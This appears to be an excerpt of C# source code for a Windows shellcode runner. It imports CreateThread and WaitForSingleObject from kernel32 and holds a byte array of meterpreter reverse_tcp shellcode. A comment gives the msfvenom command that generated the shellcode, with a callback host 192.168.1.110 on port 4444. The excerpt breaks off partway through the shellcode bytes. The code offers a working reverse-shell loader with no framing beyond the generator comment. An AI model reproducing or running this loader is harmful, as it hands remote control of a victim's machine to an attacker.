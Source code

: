 ```csharp
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,

          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  

  

    public static void runner()

    {

  

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.110 LPORT=4444 EXITFUNC=thread -f csharp

            byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,

                                                        0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,

                                                        0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,

                                                        0x52,0x20,0x56,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,

                                                        0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,

                                                        0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,

                                                        0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,

                                                        0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,

                                                        0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,

                                                        0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,

                                                        0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,

                                                        0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0x0d,0xac,0x41,

                                                        0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,

                                                        0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
```